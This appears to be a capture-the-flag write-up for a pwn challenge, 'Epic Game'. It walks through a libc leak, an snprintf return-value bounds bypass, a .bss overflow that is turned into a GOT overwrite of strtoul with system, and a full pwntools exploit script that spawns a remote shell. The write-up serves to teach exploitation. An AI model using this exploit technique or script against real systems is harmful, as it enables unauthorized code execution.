


# Epic Game

**Category**: Pwn

**The task**: 



In this challenge, we were given a zip file, contains:
* A binary we need to exploit (runs on the target server): ``app.out``
* Source code of this binary was also provided (``.c``, ``.h`` files). 

The extracted zip can be found at [./ctfd](./ctfd) in this repo for further analysis.

# Analysis

## Libc leak(?)

The ``app.out`` file is a pseudo-RPG game, allowing you to choose one out of 3 characters:
1. Warrior
2. Wizard
3. Elf 

```
Hello epic warrior, it's time to begin your quest

Choose your character:
        1 - Mighty warrior
        2 - Wizard
        3 - Elf

Your Choice:
2
Choose your character name (limit to 12 chars)
Your Choice:
AAAABBBBB
Hello AAAABBBBB The Wizard!!!
Your health is 1200 pt.
Your shield is 400 pt.
Your strength is 200 pt.
Your lucky number is 140241813315216
You will need 2147483647 points to get the flag
Good luck, the kingdom trust you!!

You meet a Dragon!!!
AAAABBBBB
choose your move:
1 - hit
2 - protect
3 - run

Your Choice:


```

The 'lucky number'(``Your lucky number is 140241813315216``) appears to be a libc address leak.

Digging down the code, it was found that each game-character is a C struct of type ``player``.

During ``init_player``, there's a variable assignment of ``rand`` to ``p_player->luck`` :

[./ctfd/epic_game.c#L9-L47](./ctfd/epic_game.c#L9-L47)

```c
void init_player(player* p_player, uint32_t character_type)
{
    uint64_t luck = rand;
    /* ...*/
    p_player->luck = luck;

```

``rand`` is not actually called here, so it means the player's lucky number ``140241813315216`` is the decimal value of ``0x7F8C97771E90``, which is ``rand@GLIBC`` address. 

This leak will help us along the way to figure out the remote server's libc version and calculate offsets.


## log_error

If the player didn't choose a valid option, the server will call ``log_error``:

[./ctfd/epic_game.c#L192-L195](./ctfd/epic_game.c#L192-L195)
```c
if(fgets (buffer, BUFFER_SIZE, stdin) != NULL) {
    uint32_t move = strtoul(buffer, NULL, 10);
    //play
    switch (move)
    {
        /* ... */ 
        default:
            log_error(buffer);
            break;
    }
```

This will log an error with the user input into a global variable ``error_log``:

[./ctfd/epic_game.c#L49-L61](./ctfd/epic_game.c#L49-L61)
```c
void log_error(char* buff)
{
    puts("Input Error\n");
    if(write_to_log)
    {
        curr += snprintf(error_log+curr, sizeof(error_log)-curr, "%s", buff);
        if (curr == sizeof(error_log))
        {
           write_to_log = false;
           //TODO: write the log buffer to file  
        }
    }
}
```

All the variables above(except ``buff``) are located in the ``.bss`` segment:

[./ctfd/epic_game.c#L3-L7](./ctfd/epic_game.c#L3-L7)

```c
/**log vars**/
char error_log[1024] = {0};
uint64_t write_to_log = 0;
uint64_t curr = 0;
/************/
```

After we got those two things in mind, we can start pwning.

# Time to pwn 

## Obstacle #1: Boundary check in ``log_error()``

The boundary check here is supposed to stop logging if the player tries to overflow the log with over 1024/0x400 bytes(==the size of ``error_log``):

[./ctfd/epic_game.c#L52-L57](./ctfd/epic_game.c#L52-L57)

```c
if(write_to_log)
{
    curr += snprintf(error_log+curr, sizeof(error_log)-curr, "%s", buff);
    if (curr == sizeof(error_log))
    {
        write_to_log = false;
```

At first glance, it looks like:
* ``snprintf`` returns the size of bytes written and accumulating the result into ``cur += snprintf(...)``
* The size of 'how much to write' is enforced by the 2nd parameter ``sizeof(error_log)-curr``.
* This is how boundaries are checked in order to toggle-off ``write_to_log`` and stop logging. 

However, after taking a closer look at the binary, it is not the exact behaviour of ``snprintf``(See: _Return Value_):
https://www.cplusplus.com/reference/cstdio/snprintf/

If we provide a buffer with size ``0x3ff``,  then ``curr`` will be ``0x3ff``. But if the buffer has ``0x1`` bytes left available and we're trying to write ``0x3`` bytes, only 1 byte will be written. But **the return value** will still be ``0x3``.

This is the _secret sauce_ for unlocking the overflow and bypassing the boundary check. ``curr`` continues to accumulate and becomes ``0x402`` . As a result: the boundary check which verifies that ``curr`` **is not yet** ``0x400`` will not evaluate:

```c
if (curr == sizeof(error_log))
```

while in reality: it's already beyond that number.


## Obstacle #2: We're in the ``.bss`` segment  

Even though we got the buffer overflow, we're not landing in a useful place like stack or heap. Instead, we are in the ``.bss`` segment.

My first guess was to overwrite some GOT entries, but ``error_log`` is located **after** the GOT. ugh, boomer.

So what CAN WE overflow?

The only things in memory after ``error_log`` are values of ``curr`` and ``write_to_log``:

```
pwndbg> x/gx 0x4044b0
0x4044b0 <error_log+1008>:  0x4242424242424242
0x4044b8 <error_log+1016>:  0x0042424242424242
0x4044c0 <write_to_log>:    0x0000000000000001
0x4044c8 <curr>:            0x0000000000000402
0x4044d0:                   0x0000000000000000
0x4044d8:                   0x0000000000000000
```

To overcome this, we can overwrite ``curr`` to be a negative number -87(``0xffffffffffffffa9``) in order to create a _write-what-where_ primitive, which will land **before** the ``error_log`` buffer.

Then, the next time ``log_error()`` will be called, it will trigger a write to the GOT entry ``strtoul@GLIBC_2.2.5`` with our user-controlled input. 

>**Note**: ``curr`` has an unsigned type of ``uint64_t``, hence, it can't really be negative.
> 
>However, if we enter the 'unsigned representation' of -87(``0xffffffffffffffa9``) and add ``&error_log`` to it = we'll end up reaching the GOT:
> ```
> pwndbg> x/gx 0x4040c0
> 0x4040c0 <error_log>:   0x4242424242424242
> 0x4040c8 <error_log+8>: 0x4242424242424242
> pwndbg> p/x (unsigned int)0x4040c0+0xffffffffffffffb8   # adding `curr` value to `error_log`
> $7 = 0x404078
> pwndbg> x/gx 0x404078 # inspecting what's inside the result
> 0x404078 <strtoul@got.plt>:     0x00007fb8e512fc60
> ```
> **Note2:** In the snippet above, ``curr`` ends with ``b8`` and not ``a9`` because the program adds ``0xf`` when we send our payload. So we're taking that into account as well.

``strtoul`` is a good candidate to override because the user input is supplied as the 1st argument to it inside the main loop of the program:

[./ctfd/epic_game.c#L154-L155](./ctfd/epic_game.c#L152-L155)

```c
puts("Your Choice:");
if(fgets (buffer, BUFFER_SIZE, stdin) != NULL) {
    uint32_t move = strtoul(buffer, NULL, 10);
```

Sample of what happens after we adjust ``curr`` properly to override ``strtoul``:

```
Your choice:
BBBBAAAA

Input Error
...
Your choice:
/bin/sh

Program received signal SIGSEGV, Segmentation fault.
0x00000000004010f0 in strtoul@plt ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────
*RAX  0x7ffcaf47dcc0 ◂— '/bin/sh\n'
 RBX  0x0
*RCX  0x9858df ◂— 0x0
*RDX  0xa
*RDI  0x7ffcaf47dcc0 ◂— '/bin/sh\n'
*RSI  0x0
*R8   0x7ffcaf47dcc0 ◂— '/bin/sh\n'
 R9   0x0
*R10  0x402017 ◂— 0x65206f6c6c654800
 R11  0x246
 R12  0x401110 (_start) ◂— xor    ebp, ebp
 R13  0x7ffcaf47de50 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x7ffcaf47dd60 ◂— 0x0
*RSP  0x7ffcaf47dbe8 —▸ 0x40196e (main+1434) ◂— mov    dword ptr [rbp - 0x148], eax
*RIP  0x4010f0 (strtoul@plt) ◂— jmp    qword ptr [rip + 0x2f82]
────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────
 ► 0x4010f0 <strtoul@plt>    jmp    qword ptr [rip + 0x2f82] <0x4141414142424242>

```

We reached the PLT trampoline, ``RDI`` contains our input string & we control ``RIP``. Perfect gadget.

Now let's change it to ``system``.

## Obstacle #3: Overcoming ASLR, finding ``system``

Even though ``PIE`` is disabled on the challenge binary itself, this is not a statically linked file. Hence: libc is loaded dynamically and the addresses are randomized. 

Using the leak of the 'lucky number' (described in _Analysis_), we can determine the libc version on the remote server. This can be done using libc database tools such as [niklasb/libc-database](https://github.com/niklasb/libc-database) and [libc.blukat.me](https://libc.blukat.me/).

After downloading the relevant ``.so`` file, we can open it in ``pwntools`` in order to calculate the base address of libc. And from there, adding offsets to discover where ``system`` is located.


# Combining everything together

( ͡▀̿ ̿ ᴗ ͡▀̿ ̿ )✊



[./solve.py](./solve.py)

```py
#!/usr/bin/env python3
from pwn import *
context.log_level = 'error'
chall        = context.binary = ELF('./app.out')
LIBC_PATH    =  ''
DEFAULT_PATH = '/usr/lib/x86_64-linux-gnu/libc-2.31.so'


def start(argv=[], *a, **kw):
    global LIBC_PATH, DEFAULT_PATH
    if args.GDB:
        LIBC_PATH = DEFAULT_PATH
        return gdb.debug([chall.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        LIBC_PATH = './libc6_2.28-10_amd64.so'
        return remote('epic_game.ichsa.ctf.today', 8007)
    else:
        LIBC_PATH = DEFAULT_PATH
        return process([chall.path] + argv, *a, **kw)

# for local debugging purposes, run the script with `GDB` argument
gdbscript = '''
break *0x401392
condition 1 (int)$rsi <= 0x7
continue
'''.format(**locals())


# utils funcs
def waitforchoice(io):
    io.recvuntil(b'Choice:')
    return 0

def fill_bss_buff(io):
    waitforchoice(io)
    io.sendline(b'A'*0x3fe)
    waitforchoice(io)
    io.sendline(b'B'*0x2)
    return 0

def setup_player(io):
    io.sendline(b'1')       # mighty warrior
    waitforchoice(io)
    io.sendline(b'pwnie')   # player's name
    return fetch_libc_leak(io)

def fetch_libc_leak(io):
    io.recvuntil(b'Your lucky number is ')
    rand_leak = int(io.recvuntil(b'\n')[:-1])
    return rand_leak


def fetch_system(libc_leak):
    global LIBC_PATH
    libc = ELF(LIBC_PATH)
    libc_base = libc_leak - libc.sym['rand']
    retval = libc_base + libc.sym['system']

    return retval

# main 
io       = start()
rnd_leak = setup_player(io)
systm    = fetch_system(rnd_leak)

print('libc leak :: ', hex(rnd_leak))
print('system :: ' , hex(systm))

print('hot-patching `curr` to create a write primitive')
fill_bss_buff(io)       # adjusting `curr` over 0x400
payload  = b'woaaah'    # fixing alignment and reaching `cur` in memory
payload += p64(0xffffffffffffffa9) # setting `cur` to create a write primitive on the GOT, 
                                   # specifically on strtoul@GLIBC_2.2.5, which is located at [0x404078] 
waitforchoice(io)
io.sendline(payload)

print('Overriding strtoul@GLIBC with system()')
io.sendline(p64(systm))

waitforchoice(io)
io.sendline(b'echo gotit && /bin/sh')
io.recvuntil(b'gotit')
io.interactive()

```
